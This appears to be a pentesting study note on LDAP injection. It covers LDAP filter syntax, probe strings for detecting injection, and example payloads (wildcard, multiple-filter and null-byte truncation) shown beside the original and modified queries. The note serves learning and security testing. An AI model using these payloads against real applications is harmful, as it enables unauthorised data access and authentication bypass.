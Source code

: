 ```yaml
---
title:  "LDAP injections"
---
```

# Introduction
* LDAP: Lightweight Directory Access Protocol
* Used to access directory services over a network. Directory: hierarchically organized data store
* Examples:
  * Microsoft ADAM (Active Directory Application Mode)
  * OpenLDAP
* Commonly used in intranet-base web applications
* Simple match conditions on the value of one attribute: `(username=greg)`
* Disjunctive queries: `(|(cn=searchterm)(sn=searchterm)(ou=searchterm))`
* Conjunctive queries: `(&(username=greg)(password=dumbpassword))`
* Not possible to retrieve different attributes than the query was intended to retrieve
* Rarely return informative error message: blind LDAP injection


# Detection
* Available informations: results returned, HTTP 500 error
* Differentiating between SQL and LDAP: wildcard character `*`
* Number of closing brackets: `)))))))))`. May break something else, so need to make sure we're dealing with LDAP before
* `cn` attribute (supported on all LDAP implementations):
  * `)(cn=*`
  * `*))(|(cn=*`
  * `*))%00`


# Injections
* Wildcard: `)(department=*)`
```
(|(department=London searchterm)(departement=Reading searchterm))       # Original query
(|(department=London)(department=*)(department=Reading)(department=*))  # Modified query
```
* If multiple search filters allowed (OpenLDAP for example): `*))(&(username=searchterm`
```
(&(username=searchterm)(department=London*))                 # Original query
(&(username=*))(&(username=searchterm)(department=London*))  # Modified query
```

* Null bytes comments: `*))%00`
```
(&(username=searchterm)(department=London*))      # Original query
(&(username=*)) [NULL byte](department=London*))  # Modified query. Everything after the null byte is ignored
```
